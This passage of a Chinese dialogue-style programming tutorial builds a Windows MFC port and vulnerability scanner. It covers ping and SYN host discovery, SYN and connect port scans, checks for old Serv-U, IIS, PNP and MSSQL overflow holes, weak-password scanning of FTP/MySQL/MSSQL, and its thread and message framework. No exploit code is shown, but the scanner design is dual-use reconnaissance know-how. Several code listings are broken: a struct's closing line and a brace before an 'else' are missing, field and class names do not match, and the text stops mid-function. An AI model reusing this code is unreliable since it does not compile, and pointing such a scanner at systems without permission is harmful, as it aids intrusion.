“大家看看下面这个方案如何，将扫描的对象、端口的配置、漏洞的配置分开，如图 3-67。”

“这样看起来还比较清爽，是怎么实现的呢？”

“这里用到了别人提供的一个简单的类‘CTabSheet’，它可以帮助我们将其它的对话框添加到‘Tab Control’里，从而实现上面的分类效果。其原理是将其它继承自 CDialog 的对话框嵌入到标签页中。也就是说它是扩展了 CTabCtrl 的功能，其定义和实现在 TableSheet.h 和 TableSheet.cpp 中。为了使用该类，需要复制这两个文件到工程目录，然后在 stdafx.h 中包含 TableSheet.h。好了，现在把我们的界面打造成这个样子，如图 3-68。”

“最上面是一个‘Tab Control’哦，右键点击‘Tab Control’添加变量，将变量的类型改为 CTabSheet，像图 3-69 一样。”

“怎么我改了后点击‘完成’，会出现这个错误对话框呢，如图 3-70？”小菜问道。

“请确认是否将 CTabSheet 的实现文件复制到了工程目录中，并包含头文件 TableSheet.h？”

“哦，忘记复制了，不好意思，不好意思！”

“VC2003 会先帮我们检测输入的类型是否有定义，不然就会出现这种错误哦。好了，我们先编译一下，以后做了一部分就把工程编译一下，看看什么地方出错了，因为添加小部分的代码比较容易定位错误，不然程序写完成了之后再编译，寻找错误就困难了哦。”

“啊~~~，出现了几个链接错误。”

```text
WwScan error LNK2019: 无法解析的外部符号 "public: virtual __thiscall CTabSheet::CTabSheet(void)" ...
CTabSheet@@UAE@XZ) 该符号在函数 "public: virtual __thiscall CWwScanDlg::CWwScanDlg(void)" ...
WwScan error LNK2001: 无法解析的外部符号 "public: virtual __thiscall CTabSheet::~CTabSheet(void)" ...
WwScan error LNK2019: 无法解析的外部符号 "public: __thiscall CTabSheet::CTabSheet(void)" ...
```

“是关于 CTabSheet 的错误，难道 CTabSheet 的实现有问题。”小菜们问道。

“不是呀，如果 CTabSheet 的实现有问题，那么报出的错误应该是语句或者其它的错误。链接的错误有两个方面可能产生。第一，如果使用外部 DLL 的函数而没有把相应的 lib 文件链接到工程；第二，使用别人代码类库，虽然将其头文件包含，但是没有将代码的实现文件添加到工程中。”

“哦，我们确实没有添加 TableSheet.h 和 TableSheet.cpp 到工程中。”小菜们说道。

“切换到‘解决方案资源管理器’视图，右键点击‘WwScan’，添加现有项，如图 3-71。”

“然后选中 TableSheet.h 和 TableSheet.cpp，点击打开，再次编译。”

“Yes，成功了，又学会了一招，赶紧运行让我们看看效果。”

“太心急了吧，现在才把柜台建好，里面还没有放货物呢，不过首先得把货物给生产出来。”

“什么货物啊？”小菜问道。

“当然是对话框了，首先来添加扫描对象对话框，切换到‘资源视图’，右键点击‘Dialog’->‘插入 Dialog’，VC 就会为我们添加一个对话框的资源，如图 3-72。”

“然后将这个对话框属性修改一下，将‘ID’修改为‘IDD_DIALOG_SCAN_OB’，‘Border’修改为‘None’，‘Style’修改为‘Child’，特别是‘Style’一定要修改哦，否则会有问题。接下来为这个对话框冠名、贴牌，在对话框上右键->‘添加类’，弹出了‘MFC 类向导’，如图 3-73。”

“修改为图中的设置，点击确定，VC 就为我们添加了 ScanOBDlg.h 和 ScanOBDlg.cpp 两个文件，其中就包含了 CScanOBDlg 类的实现。使用同样的方法，我们添加端口设置和漏洞设置对话框，并和其相应的类进行关联，其类名分别为 PortParamCfg、CVulParamCfg。好了，现在货物也生产出来了，最后的步骤就是将货物添加到柜台里面了哦。在 WwScan.h 联系货物的厂家。”

```cpp
#include "PortParamCfg.h"
#include "VulParamCfg.h"
#include "ScanOBDlg.h"
```

“声明货物的名字。”

```cpp
CScanOBDlg m_ScanOBPage;
PortParamCfg m_PortParamPage;
CVulParamCfg m_VulParamPage;
```

“在 CWwScanDlg::OnInitDialog() 中将货物摆出来。”

```cpp
// 添加属性页
m_TabSheet.AddPage(_T("对象参数"), &m_ScanOBPage, IDD_DIALOG_SCAN_OB);
m_TabSheet.AddPage(_T("端口参数"), &m_PortParamPage, IDD_DIALOG_PORT_CFG);
m_TabSheet.AddPage(_T("漏洞参数"), &m_VulParamPage, IDD_DIALOG_VUL_CFG);
m_TabSheet.Show();
```

“编译，并执行，结果如图 3-74 所示。”

“哦，终于成功了，而且切换自如。”

小菜们欢呼道。

“确实不容易啊，我们再来总结一下上面的步骤：复制 TableSheet.h 和 TableSheet.cpp，并添加到工程；将‘Tab Control’和 CTabSheet 类型的变量关联；添加对话框，修改属性，并生成其对应的类；最后在 CWwScanDlg 声明变量，并在 OnInitDialog 中显示出来。”

“好了，我们记住了。”小菜们用笔将步骤记录了下来，准备放学后自己也写一个。

“OnInitDialog() 函数是什么东西，以前没有用过呢？从名字上看好像是关于对话框初始化的函数。”小菜发现了新大陆。

“对，OnInitDialog() 功能就是这样，它是一个虚函数，它会在对话框显示以前得到机会执行，而且此时对话框所有的控件都已经创建完成，因此可以随意地改变控件的样式、修改控件的数据等等，以后我们会经常用到该函数来对对话框的控件进行设置。最大的框架已经搭建成功，剩下的就是将界面的各个元素放到各个子对话框中，这个就简单了。扫描对象参数对话框，如图 3-75。”

“端口参数对话框，如图 3-76。”

“漏洞扫描参数，如图 3-77。”

“最后来看看我们的界面效果，如图 3-78。”

“至此，所有的界面元素设计完成，下面就进入概要设计。”

### 3.3.3 概要设计

“概要设计的目的就是将程序的功能模块整理清楚，其中包括我们需要哪些模块、这些模块的功能是什么和这些模块的逻辑结构、物理结构是怎么样的。首先来看看这个扫描程序需要分成哪些模块以及各个模块的功能。”

#### 一、模块划分及其功能定义

“模块可以分为功能性模块和辅助性模块，功能性模块是指为实现直接目的的模块，比如实现 TCP Connect 端口扫描的模块，而辅助模块是指为功能模块服务的模块，比如为功能模块设定参数、将功能模块实现的结果显示出来。根据我们前面的功能分析，我们很容易就可以将功能性模块整理出来哦。”

- 1. ICMP 主机存活性检测模块
- 2. TCP SYN 主机存活性检测模块
- 3. TCP Connect 端口扫描模块
- 4. TCP SYN 端口扫描模块
- 5. Serv-U 溢出漏洞扫描模块
- 6. IIS 的 .printer 和 .ida/.idq 漏洞扫描模块
- 7. PNP 溢出漏洞扫描模块
- 8. MSSQL 溢出漏洞扫描模块
- 9. FTP 弱口令扫描模块
- 10. MySQL 弱口令扫描模块
- 11. MSSQL 弱口令扫描模块
- 12. SQL 注入点扫描模块

“其次是辅助模块，根据我们的界面设计，我们需要下面的辅助模块。扫描对象配置模块：显示、配置扫描对象，并将用户输入的扫描对象传递给功能模块；端口扫描配置模块：显示、配置端口扫描信息，并将用户输入的端口扫描信息传递给功能模块；漏洞扫描配置模块：显示、配置漏洞扫描对象，并将用户输入的漏洞扫描信息传递给功能模块；结果回显模块：将扫描的结果信息显示出来。”

#### 二、逻辑结构分析

“程序的逻辑结构，也就是模块相互之间的逻辑关系，它是我们程序编写的指路明灯。从前面的功能分析以及模块的划分，我们可以非常轻松地理出下面这张逻辑表来，如图 3-79。”

“有了这个表后我们对程序的理解清楚了很多哦。”小菜们说道。

“这个表就是我们程序设计的向导。”

#### 三、模块的物理结构

“接下来我们看看模块的物理结构，也就是模块的实现文件。由于我们这个程序主要分为两个大的模块：端口扫描模块和漏洞扫描模块，因此我们将两个模块分开，使用 PortScan.cpp 和 PortScan.h 来完成端口扫描模块的实现，而使用 VulScan.cpp 和 VulScan.h 来完成漏洞扫描模块的实现。现在就来把这些头文件和源文件添加到工程中来，切换到‘解决方案资源管理器’，右键点击‘WwScan’——>‘添加’——>‘添加新项’，就会弹出‘添加新项’对话框，在‘模板’中选择需要添加的类型，并填写上名称就可以了。按照这个步骤就可以把头文件和源文件添加到工程中了。添加了头文件和源文件后，其内容是空的。为了防止重复包含的问题，我们可以学习 VC2003 本身头文件的设置，在最开始添加一句‘#pragma once’，同时在源文件最开始包含预编译头 stdafx.h。其它还有一些模块，比如扫描对象配置模块、端口扫描配置模块以及漏洞扫描配置模块，这些模块在前面已经讲述过了，这里就不多提了，最后再来总结一下物理结构。”

| 文件 | 说明 |
|---|---|
| PortScan.cpp | 所有端口扫描相关模块的实现 |
| VulScan.cpp | 所有漏洞扫描相关模块的实现 |
| PortParamCfg.cpp | 端口扫描参数配置模块的实现 |
| VulParamCfg.cpp | 漏洞扫描参数配置模块的实现 |
| ScanOBDlg.cpp | 扫描对象配置模块的实现 |

“这样我们的概要设计就算完成了，下面我们就进入详细设计了。”

### 3.3.4 详细设计

“详细设计的目的就是根据模块逻辑关系，整理出整个程序的流程以及对流程中的各个节点进行定义、分析。”

#### 一、程序流程

“我们的程序只有一个外部接口，就是‘开始扫描’，那么我们就来看看当点击‘开始扫描’按钮时我们的程序流程是怎么样的，我们一层一层地来剖析。”

“首先是消息响应函数的流程，为了界面的不僵死，我们在消息响应函数中首先读取扫描的配置参数，然后开启一个管理线程，由管理线程来统一地进行任务的分配。”小菜们已经分析过几次了，这次很快就说出了消息响应函数的流程。

“好，继续走，管理线程的流程。”老师趁热打铁。

“管理线程的流程就是先进行端口扫描，然后进行漏洞扫描。”小菜们也觉得思路越来越清晰。

“不错，再来分析端口扫描的流程，大家先讨论一下。”

“嗯，首先判断配置中采用的端口扫描方式，如果是 TCP SYN 扫描则先开启嗅探线程，然后开始发送 SYN 数据包进行扫描；如果是 TCP Connect 扫描，那么又需要判断配置中采用的是何种检测存活性的方法，检测完存活性之后再调用 Connect 函数进行端口检测。”经过一番讨论之后，小菜们得出了这个结论。

“呵呵，看来大家已经深谙此道了哦。”老师赞扬道，“好，一口气把剩下的漏洞扫描流程也搞定了吧。”

“这个就简单了吧，检查配置信息，然后根据配置信息开启漏洞扫描程序。”小菜们说道。

“不错，现在程序流程设计已经完全搞定，最后来总结一下，如图 3-80。下面我们来进行更进一步的设计，模块的接口定义设计。”

#### 二、接口定义

“模块的接口也就是该模块对外提供的服务函数，比如扫描对象配置模块应该向外提供一个获取配置结果的函数接口。上小节中我们将程序的流程整理了出来，而模块的接口设计就是对程序流程中的各个节点进行分析、定义，下面我们就来分析一下各个模块都需要设计哪些接口。”

##### （1）扫描对象配置模块

“配置模块的功能是配置扫描的 IP 地址和本地 IP 地址，因此其对外的接口就是将 IP 地址以及本地 IP 地址输出。由于该输出参数较少，因此把 IP 控件和本地 IP 控件的变量设置为 public 型，供外部访问。”

##### （2）端口扫描配置模块

“端口扫描配置模块需要将扫描的端口、扫描的方式（TCP Connect 或者 TCP SYN 扫描）、是否检测存活，以及检测存活使用的方式（ICMP 或者 SYN）这些信息输出，因此可以对外提供一个接口函数 GetPortParam。”

```cpp
原型
int CPortParamCfg::GetPortParam(PortCfgParam *Param);

参数
Param 为 PortCfgParam 结构指针，根据端口扫描需要的信息，可以将 PortCfgParam 定义如下：

/*
    端口扫描参数配置数据结构
*/
typedef struct tagPortCfgParam
{
    DWORD dwPortNum;        // 端口个数
    DWORD *pDwPort;         // 端口数组的首地址
    BOOL bSynScan;          // 是否为 SYN 扫描
    BOOL bIcmpCheck;        // 是否进行 ICMP 存活性探测
    BOOL bSynCheck;         // 是否进行 SYN 存活性探测
    DWORD dwMaxThread;      // Connect 扫描的最大线程
} PortCfgParam, *PPortCfgParam;
```

##### （3）漏洞扫描配置模块

“漏洞扫描配置模块的外部接口就是将用户配置的漏洞扫描信息输出，因此同样对外提供一个 GetVulScanParam 函数。”

```cpp
原型
BOOL CVulParamCfg::GetVulScanParam(VulScanParam *pParam);

参数
Param 为 VulScanParam 的结构指针
```

“VulScanParam 结构应该如何定义呢？首先有扫描漏洞的类型信息，用来确定需要扫描哪些漏洞；其次是为了将扫描的结果反馈到对话框中，我们需要保存对话框的句柄；再次，我们还需要哪些主机的哪些端口开放了，以便有的放矢，因此我们需要获得存活主机的 IP 以及存活主机开放的端口。我们可以考虑这样来设计：使用一个链表来存放存活的主机，再对每个存活主机的端口构造一个链表来存放其开放端口，最后形成的结构如图 3-81 所示。”

“最后可以把 VulScanParam 结构的定义确定下来了。”

```cpp
/*
    漏洞扫描数据结构
*/
typedef struct tagVulScanParam
{
    BOOL bFtp;         // FTP 溢出漏洞扫描
    BOOL bMssql;       // Mssql 溢出漏洞扫描
    BOOL bIis;         // IIS 溢出漏洞扫描
    BOOL bPnp;         // Pnp 溢出漏洞扫描
    BOOL bFtpPass;     // Ftp 弱口令扫描
``````c
BOOL bMysqlPass;              // Mysql弱口令扫描
BOOL bMssqlPass;              // Mssql弱口令扫描
HANDLE hStopScanEvent;        // “停止扫描”事件
HWND hRootDlgWnd;             // 主对话框窗口句柄
HWND hLeftListWnd;            // 左边列表框句柄
HWND hRightTreeWnd;           // 右边树形控件句柄
CList<VulpAndPort, VulpAndPort> *pIpList;  // 保存有开放服务的IP链表
VulScanParam, *pVulScanParam;

/*
    CList 的类型为 VulpAndPort，其定义为：

    端口开放及其对应 IP 数据结构
*/
typedef struct tagVulpAndPort
{
    DWORD dwIp;                         // IP地址
    CList<DWORD, DWORD> *pPortList;     // 该IP地址所开放的端口的链表
} VulpAndPort, *PVulpAndPort;
```

##### （4）端口扫描模块

“端口扫描模块向外面提供一个线程函数 MainPortThread，其功能是判断配置中采用的端口扫描方式，如果是 TCP SYN 扫描则先开启嗅探线程，然后开始发送 SYN 数据包进行扫描；如果是 TCP Connect 扫描，那么又需要判断配置中采用的是何种检测存活性的方法，检测完存活性之后再调用 Connect 函数进行端口检测。其定义为：`DWORD WINAPI MainPortThread(LPVOID lpParam);`”

> “那么如何来定义传递给该函数的数据结构呢？”

“端口扫描需要扫描的 IP 地址、本机 IP 地址、端口、扫描的类型以及反馈回显信息所需要的对话框句柄，因此，端口扫描的结构可以定义为：”

```c
/*
    端口扫描参数配置数据结构
*/
typedef struct tagPortScanParam
{
    PortCfgParam CfgParam;         // 端口扫描配置的参数
    DWORD dwStartIP;               // 开始IP，主机字节序
    DWORD dwEndIP;                 // 结束IP，主机字节序
    DWORD dwSnifferIP;             // 本机嗅探的IP地址，网络字节序
    HANDLE hStopScanEvent;         // “停止扫描”事件
    HANDLE hStopCheckLiveEvent;    // Check Live结束事件
    HWND hRootDlgWnd;              // 主对话框窗口句柄
    HWND hLeftListWnd;             // 左边列表框句柄
    HWND hRightTreeWnd;            // 右边树形控件句柄
} PortScanParam, *PPortScanParam;
```

##### （5）漏洞扫描模块

“同样，漏洞扫描模块也向外面提供一个线程函数 MainVulScanThread，其作用就是判断配置中需要采用哪些漏洞扫描，然后开启相应的漏洞扫描线程，其定义为 `DWORD WINAPI MainVulScanThread(LPVOID pParam)`。其线程需要的参数结构可以使用前面定义的 VulScanParam。”

##### （6）端口扫描中的各个小模块接口定义

“由于在前两章已经对各个模块进行了实现，因此，这里就只给出各个模块线程的定义。”

```c
TCP SYN扫描
// 使用Syn进行端口扫描数据包接收线程
DWORD WINAPI ScanPortBySynRecv(LPVOID lpParam);
// 使用Syn进行端口扫描SYN数据包发送线程
DWORD WINAPI ScanPortBySyn(LPVOID lpParam);

ICMP检测存活性
DWORD WINAPI CheckLiveRecv(LPVOID lpParam);
DWORD WINAPI CheckLiveByIcmp(LPVOID lpParam);

SYN检测存活性
DWORD WINAPI CheckLiveRecv(LPVOID lpParam);
DWORD WINAPI CheckLiveBySyn(LPVOID lpParam);

TCP Connect扫描
DWORD WINAPI ScanPortByConnect(LPVOID lpParam);
```

##### （7）漏洞扫描中的各个小模块接口定义

“同样，这里也只是把漏洞扫描的各个小模块的接口定义给出。”

```c
Serv-u 漏洞扫描
DWORD WINAPI FtpScanThread(LPVOID lpParam);

IIS 漏洞扫描
DWORD WINAPI IisScanThread(LPVOID lpParam);

PNP 溢出漏洞扫描
DWORD WINAPI PnpScanThread(LPVOID lpParam);

MSSQL 溢出漏洞扫描
DWORD WINAPI MssqlScanThread(LPVOID lpParam);

FTP 弱口令扫描
DWORD WINAPI FtpPassScanThread(LPVOID lpParam);

MYSQL 弱口令扫描
DWORD WINAPI MySqlPassScanThread(LPVOID lpParam);

MSSQL 弱口令扫描
DWORD WINAPI MssqlPassScanThread(LPVOID lpParam);
```

##### （8）扫描结果回显模块

“前面在介绍漏洞扫描模块的时候提到，我们会使用对话框的句柄来进行回显结果数据的传递。”

“对啊，刚才就有这个疑问了，我们在以前的程序编写中都是把对话框的 this 指针传递给子线程，然后子线程直接调用对话框的指针进行内容的添加，这样不是很简单吗？还有就是使用句柄我们怎么来操作对话框的元素呢？”小菜们问道。

“首先回答第一个问题：有两个原因我们需要改进这种方法。第一是模块的封装性问题，使用 this 指针我们就不能将扫描模块和结果回显模块分开，特别是在大型的工程中，模块的不分离会导致分工的不细化，影响分工协作；第二个原因就是稳定性问题，对话框的指针的基础就是对话框的存在，如果对话框不存在了呢？”

“我们不是总有一个对话框吗？怎么会不存在呢？”

“呵呵，这里当然不会出现这种情况，但是这种情况很可能出现在单文档或者多文档工程中，如果窗口已经被销毁，那么程序就会出现致命错误，因此，为了祖国的计算机，我们使用对话框的句柄来进行扫描结果的传递。再来回答第二个问题，如何使用句柄来传递信息。还记得消息响应吗？每一个窗口都有自己的一个消息循环机制，当有消息到来的时候就会调用消息相应的消息响应函数来进行处理，因此，我们可以在扫描的线程中向主框架窗口发送消息来传递我们需要显示的数据。”

“不过好像只有按钮、列表控件的点击之类的才会产生消息啊？”小菜们问道。

“其实除了鼠标按键、键盘会主动发送消息之外，我们还可以调用 SendMessage 或者 PostMessage 来手动发送消息哦，不过呢，调用这两个函数需要知道发送的对象，也就是窗口的句柄，因此我们在前面才会将对话框的窗口句柄传递到线程中。首先我们来看消息发送的函数。”

```c
SendMessage
原型：
LRESULT SendMessage(
  HWND hWnd,
  UINT Msg,
  WPARAM wParam,
  LPARAM lParam
);
其功能是将消息发送到指定的窗口，并一直等待消息被处理完成。
参数：
hWnd：消息接收的窗口句柄
Msg：发送的消息的 ID 号，窗口消息处理函数就是依据这个来寻找相应的处理函数的
wParam：传递给消息处理函数的参数一
lParam：传递给消息处理函数的参数二
```

“PostMessage 和 SendMessage 函数的参数返回值都一样，它们唯一的不同就是 PostMessage 在调用后马上返回，它只是把消息投递到指定窗口的消息队列中，由窗口自行处理。”

“消息倒是发送出去了，那么究竟由谁来接收呢？”小菜们问道。

“因此呢，我们需要在窗口类中自己定义一个处理该消息的函数，并将该函数和该消息关联起来，下面就以添加漏洞扫描信息的自定义消息为例，来解释建立自定义消息的步骤。”

- 1、定义消息的 ID
- 2、定义消息响应函数并实现
- 3、声明消息响应 ID 和消息响应函数的关联

可以在 stdafx.h 中添加一个消息 ID：`#define WM_ADD_VUL_RES WM_USER + 5` // 添加漏洞信息。其次，在 WwScanDlg.h 中声明消息响应函数，并在 WwScanDlg.cpp 中进行实现，消息响应函数是有固定格式的，如下：`afx_msg LRESULT OnAddVulRes(WPARAM wParam, LPARAM lParam);`。afx_msg 为占位符，表示该函数为消息响应函数，wParam 为 SendMessage 发送的 wParam 值，lParam 为 SendMessage 发送的 lParam 值。最后，将 OnAddVulRes 函数和消息 ID `WM_ADD_VUL_RES` 关联起来，在 WwScanDlg.cpp 中找到这样的代码：

```cpp
BEGIN_MESSAGE_MAP(CWwScanDlg, CDialog)
ON_WM_SYSCOMMAND()
ON_WM_PAINT()
ON_WM_QUERYDRAGICON()
//}}AFX_MSG_MAP
END_MESSAGE_MAP()
```

“这个就是 MFC 处理消息响应函数和消息 ID 关联的地方，如其中的 `ON_WM_PAINT()`，其实质上就是将 OnPaint 函数和消息 ID `WM_PAINT` 关联了起来，而 MFC 也准备了一个宏，让我们可以轻松地将消息 ID 和消息响应函数关联起来：`ON_MESSAGE()`，关联后的代码如下。”

```cpp
BEGIN_MESSAGE_MAP(CWwScanDlg, CDialog)
ON_WM_SYSCOMMAND()
ON_WM_PAINT()
ON_WM_QUERYDRAGICON()
//}}AFX_MSG_MAP
ON_MESSAGE(WM_ADD_VUL_RES, OnAddVulRes)
END_MESSAGE_MAP()
```

“这样，我们就完成了自定义消息的添加，此时，我们在线程里面就可以使用 `SendMessage` 来完成消息的传递了。因此，最后就形成了以下的回显模块的接口。”

```cpp
// 添加存活主机信息消息响应函数
afx_msg LRESULT OnCheckLiveRes(WPARAM wParam, LPARAM lParam);
// 添加扫描的端口结果信息的消息响应函数
afx_msg LRESULT OnScanPortRes(WPARAM wParam, LPARAM lParam);
// 获取存活 IP 地址以及对应的开放端口的消息响应函数
afx_msg LRESULT OnGetActiveIpAndPort(WPARAM wParam, LPARAM lParam);
// 添加回显信息的消息响应函数
afx_msg LRESULT OnAddBackMsg(WPARAM wParam, LPARAM lParam);
// 添加漏洞扫描结果信息的消息响应函数
afx_msg LRESULT OnAddVulRes(WPARAM wParam, LPARAM lParam);
```

### 3.3.5 框架的搭建

“当接口定义好后，我们就可以根据程序的流程来进行框架的搭建了。按照流程，我们先来实现消息响应函数，在资源编辑中，双击‘开始扫描’按钮，得到消息响应函数 `OnBnClickedStartScan`，消息响应函数的功能就是获取参数的配置，并开启管理所有线程的线程，其代码如下。”

```cpp
// “开始扫描”按钮响应函数
void CWwScanDlg::OnBnClickedStartScan()
{
    UpdateData(TRUE);
    PortScanParam Param = {0};
    // 端口扫描参数配置接口
    if (!CPortParamCfg::GetPortParam(&Param.CfgParam))
    {
        return;
    }
    SetEvent(m_hStopScanEvent);
    SetEvent(m_hStopCheckLiveEvent);
    // 扫描对象参数配置接口
    // 获取本机 IP
    int iBoxIndex = m_ScanOBDlg.m_BoxLocalIp.GetCurSel();
    CString strSnifferIP;
    m_ScanOBDlg.m_BoxLocalIp.GetLBText(iBoxIndex, strSnifferIP);
    Param.dwSnifferIP = inet_addr(strSnifferIP);
    m_ScanOBDlg.m_IPStartCtrl.GetAddress(Param.dwStartIP);
    m_ScanOBDlg.m_IPEndCtrl.GetAddress(Param.dwEndIP);
    if (Param.dwStartIP > Param.dwEndIP)
    {
        DWORD dwIpTmp = Param.dwStartIP;
        Param.dwStartIP = Param.dwEndIP;
        Param.dwEndIP = dwIpTmp;
    }
    // 其它控制参数
    Param.hRootDlgWnd = GetSafeHwnd();
    Param.hLeftListWnd = m_PresListCtrl.GetSafeHwnd();
    Param.hRightTreeWnd = m_PresTreeCtrl.GetSafeHwnd();
    Param.hStopCheckLiveEvent = m_hStopCheckLiveEvent;
    Param.hStopScanEvent = m_hStopScanEvent;
    // 开启管理线程
    HANDLE hThread = CreateThread(NULL, 0, CWwScanDlg::MainThread, &Param, 0, NULL);
    Sleep(1000);
    CloseHandle(hThread);
}
```

“其次，我们来设计管理线程，它的目的是开启端口扫描线程、开启漏洞扫描线程。”

```cpp
/*
    管理所有线程的主线程函数
*/
DWORD WINAPI CWwScanDlg::MainThread(LPVOID lpParam)
{
    PortScanParam Param = {0};
    MoveMemory(&Param, lpParam, sizeof(Param));
    HANDLE hThread = CreateThread(NULL, 0, MainPortThread, &Param, 0, NULL);
    // 等待扫描结束
    WaitForSingleObject(hThread, INFINITE);
    // 回收内存
    if (Param.CfgParam.pDwPort)
    {
        delete []Param.CfgParam.pDwPort;
    }
    // 配置漏洞扫描参数
    VulScanParam VulPram = {0};
    VulPram.hStopScanEvent = Param.hStopScanEvent;
    VulPram.hRootDlgWnd = Param.hRootDlgWnd;
    VulPram.hLeftListWnd = Param.hLeftListWnd;
    VulPram.hRightTreeWnd = Param.hRightTreeWnd;
    // 漏洞参数配置接口
    CVulParamCfg::GetVulScanParam(&VulPram);
    // 开启扫描漏洞主线程
    hThread = CreateThread(NULL, 0, MainVulScanThread, &VulPram, 0, NULL);
    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
```

“解决了线程问题，咱们继续，现在轮到端口扫描的外部接口了。”

```cpp
/*
    端口扫描的入口线程
*/
DWORD WINAPI MainPortThread(LPVOID lpParam)
{
    PortScanParam Param = {0};
    MoveMemory(&Param, lpParam, sizeof(Param));
    if (Param.CfgParam.bSynScan)
    {
        for (DWORD dwTmp = Param.dwStartIP; dwTmp < Param.dwEndIP; dwTmp++)
        {
            SendMessage(Param.hRootDlgWnd, WM_CHECK_LIVE_RES, 0, htonl(dwTmp));
        }
        ScanRecvParam RecvParam;
        MoveMemory(&RecvParam, &Param, sizeof(Param));
        HANDLE hRecvReady = CreateEvent(NULL, TRUE, FALSE, NULL);
        RecvParam.hRecvThreadReady = hRecvReady;

        HANDLE hRecvStopEvent = CreateEvent(NULL, TRUE, FALSE, NULL);
        RecvParam.hRecvStopEvent = hRecvStopEvent;
        // 建立接收线程
        HANDLE hRecvThread = CreateThread(NULL, 0, ScanPortBySynRecv, &RecvParam, 0, NULL);
        // 等待接收准备好
        WaitForSingleObject(hRecvReady, INFINITE);
        CloseHandle(hRecvReady);
        // 使用 Syn 扫描
        HANDLE hSynScanThread = CreateThread(NULL, 0, ScanPortBySyn, &Param, 0, NULL);
``````cpp
// 等待扫描结束
WaitForSingleObject(hSynScanThread, INFINITE);
// syn 包没发完后等待 6 秒
Sleep(6000);
OutputDebugString("stop syn scan");
SetEvent(hRecvStopEvent);
WaitForSingleObject(hRecvThread, INFINITE);
OutputDebugString("stop syn scan ok");
CloseHandle(hRecvThread);
CloseHandle(hSynScanThread);

else
{
    // 使用 Connect 扫描
    CMapPtrToPtr PtrValidIP;
    // 如果需要检测主机存活性
    if (Param.CfgParam.bIcmpCheck || Param.CfgParam.bSynCheck)
    {
        TCHAR *szReadyCheckLive = _T("开始检测主机存活");
        SendMessage(Param.hRootDlgWnd, WM_ADD_BACK_MSG, emMsg, (LPARAM)szReadyCheckLive);
        ScanRecvParam RecvParam;
        MoveMemory(&RecvParam, &Param, sizeof(Param));
        HANDLE hRecvReady = CreateEvent(NULL, TRUE, FALSE, NULL);
        RecvParam.hRecvThreadReady = hRecvReady;
        RecvParam.hMapValidIP = &PtrValidIP;
        // 建立接收线程事件
        HANDLE hRecvStopEvent = CreateEvent(NULL, TRUE, FALSE, NULL);
        RecvParam.hRecvStopEvent = hRecvStopEvent;
        // 建立接收线程
        HANDLE hRecvThread = CreateThread(NULL, 0, CheckLiveRecv, &RecvParam, 0, NULL);
        WaitForSingleObject(hRecvReady, INFINITE);
        CloseHandle(hRecvReady);

        // 建立发送线程
        HANDLE hIcmpThread = NULL;
        HANDLE hSynThread = NULL;
        if (Param.CfgParam.bIcmpCheck)
        {
            hIcmpThread = CreateThread(NULL, 0, CheckLiveByIcmp, &Param, 0, NULL);
        }
        if (Param.CfgParam.bSynCheck)
        {
            hSynThread = CreateThread(NULL, 0, CheckLiveBySyn, &Param, 0, NULL);
        }

        // 等待线程结束
        if (hIcmpThread)
        {
            WaitForSingleObject(hIcmpThread, INFINITE);
        }
        if (hSynThread)
        {
            WaitForSingleObject(hSynThread, INFINITE);
        }

        Sleep(1000);
        SetEvent(hRecvStopEvent);
        WaitForSingleObject(hRecvThread, INFINITE);
        TCHAR *szCheckLiveFinish = _T("检测主机存活完成");
        SendMessage(Param.hRootDlgWnd, WM_ADD_BACK_MSG, emMsg, (LPARAM)szCheckLiveFinish);
    }
    else
    {
        for (DWORD i = Param.dwStartIP; i <= Param.dwEndIP; i++)
        {
            DWORD dwIpTmp = htonl(i);
            PtrValidIP.SetAt((void*)dwIpTmp, (void*)&dwIpTmp);
            // 添加扫描结果
            PostMessage(Param.hRootDlgWnd, WM_CHECK_LIVE_RES, 1, dwIpTmp);
        }
    }

    HANDLE hConnectSemaphore = CreateSemaphore(NULL,
        Param.CfgParam.dwMaxThread,
        Param.CfgParam.dwMaxThread,
        NULL);

    HANDLE hConScanEndEvent = CreateEvent(NULL, TRUE, FALSE, NULL);
    HANDLE hParamCopyOK = CreateEvent(NULL, TRUE, FALSE, NULL);
    ConnectScanParam ConScanParam;
    MoveMemory(&ConScanParam, &Param, sizeof(Param));
    ConScanParam.hSemaphore = hConnectSemaphore;
    ConScanParam.hConScanEndEvent = hConScanEndEvent;
    ConScanParam.hParamCopyOK = hParamCopyOK;
    // ConScanParam.dwPortLeft = Param.CfgParam.dwPortNum;
    DWORD dwIPNum = Param.dwEndIP - Param.dwStartIP + 1;
    DWORD dwScanNum = dwIPNum * Param.CfgParam.dwPortNum;
    POSITION ps;
    DWORD dwIP;
    DWORD dwRes;

    // 使用 Connect 进行端口扫描
    for (ps = PtrValidIP.GetStartPosition(); ps != NULL; )
    {
        PtrValidIP.GetNextAssoc(ps, (void*&)dwIP, (void*&)dwRes);
        for (DWORD i = 0; i < Param.CfgParam.dwPortNum; i++)
        {
            ConScanParam.dwCurrentPort = Param.CfgParam.pDwPort[i];
            ConScanParam.dwCurrentIP = dwIP;
            DWORD dwWaitRes;
            dwWaitRes = WaitForSingleObject(hConnectSemaphore, 200);
            if (dwWaitRes == WAIT_OBJECT_0)
            {
                // 线程不定 MAX_THREAD
                HANDLE hThread = CreateThread(NULL, 0, ScanPortByConnect,
                    &ConScanParam, 0, NULL);
                if (hThread == NULL)
                {
                    ReleaseSemaphore(hConnectSemaphore, 1, NULL);
                    i--;
                    Sleep(200);
                    continue;
                }
                WaitForSingleObject(hParamCopyOK, 2000);
                ResetEvent(hParamCopyOK);
            }
            else if (dwWaitRes == WAIT_TIMEOUT)
            {
                // 线程数已经用完
                continue;
            }
        }
    }

    if (PtrValidIP.GetCount() == 0)
        SetEvent(hConScanEndEvent);

    WaitForSingleObject(hConScanEndEvent, INFINITE);

    SendMessage(Param.hRootDlgWnd, WM_ADD_BACK_MSG, emPortScanFinished, NULL);
    return 0;
}
```

> “最后一条线，漏洞扫描的外部接口。”

```cpp
DWORD WINAPI MainVulScanThread(LPVOID pParam)
{
    VulScanParam Param = {0};
    MoveMemory(&Param, pParam, sizeof(Param));
    SendMessage(Param.hRootDlgWnd, WM_GET_ACTIVE_IP_AND_PORT, 0, (LPARAM)&Param);
    HANDLE hThread[10] = {0};
    int iCnt = 0;
    if (Param.bFtp)
    {
        hThread[iCnt] = CreateThread(NULL, 0, FtpScanThread, &Param, 0, NULL);
        if (hThread[iCnt])
        {
            iCnt++;
        }
    }

    if (Param.bIIS)
    {
        hThread[iCnt] = CreateThread(NULL, 0, IisScanThread, &Param, 0, NULL);
        if (hThread[iCnt])
        {
            iCnt++;
        }
    }

